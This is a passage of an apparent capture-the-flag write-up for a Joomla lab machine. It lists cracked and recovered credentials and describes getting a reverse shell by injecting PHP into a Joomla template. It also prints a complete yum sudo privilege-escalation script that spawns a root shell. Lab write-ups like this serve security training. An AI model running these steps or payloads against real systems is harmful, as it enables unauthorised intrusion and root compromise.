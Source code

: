 I try to login to ssh with that credentials but it doesn't work. So I Try to login to `joomla` and that works there.
```
jonah:spiderman123
```
After Login to `/administrator` end point there we can go `Extension` drop down menu on Web Site Header and after we can go Templates and there we can select any template and change there php code. So Now we can change that php code and add a reverse shell code there after visiting that payload we can get the reverse shell.
**Note**: I use simple php command execution payload because PentestMonkey PHP Code gives some error. So when I get Command Execution I use simple `mkfifo` reverse shell payload to get shell

After I got reverse shell I read `configuration.php` and there is Mysql credentials.
My SQL Credentials
```
root:nv5uz9r3ZEDzVjNu
```
we can use this credentials to login wih local user `jjameson` with following command
```shell
su jjameson
```
### Privillege Escalation
User `jjameson` can run `yum` with `sudo` And `No PASSWD`. With the help of GTFObins that show us full payload we can run and get the root shell.
```payload 
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF

sudo yum -c $TF/x --enableplugin=y
```